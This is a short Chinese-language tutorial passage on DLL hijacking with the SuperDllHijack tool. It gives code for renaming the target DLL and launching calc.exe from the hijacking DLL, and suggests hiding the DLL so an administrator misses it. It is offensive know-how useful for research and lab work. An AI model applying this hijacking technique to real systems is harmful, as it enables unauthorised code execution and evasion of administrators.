 #### SuperDllHijack

[anhkgg/SuperDllHijack](https://github.com/anhkgg/SuperDllHijack)

一种通用的 DLL 劫持方法, 直接更改 `LoadLibrary()` 返回的 DLL 地址, 优点是通用性强, 不需要手动导出 DLL 函数.

以之前的程序为例.

修改 Test.dll 为 .Test.dll, 并在 dllmain.cpp 中更改被劫持 DLL 的名称 (如果管理员是傻子可以尝试将 DLL 设为隐藏).

```
PathAppend(tszDllPath, TEXT(".Test.Dll"));
```

加入启动进程的代码.

```
STARTUPINFO si = { sizeof(si) };
PROCESS_INFORMATION pi;
CreateProcess(TEXT("C:\\Windows\\System32\\calc.exe"), NULL, NULL, NULL, false, 0, NULL, NULL, &si, &pi);
DllHijack1(hModule);
```

编译执行.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190809163622.png)

## 其它

实测中发现如果是 x64 的系统, DllHijack 只会从 SysWOW64 中加载 DLL, 而不是 System32.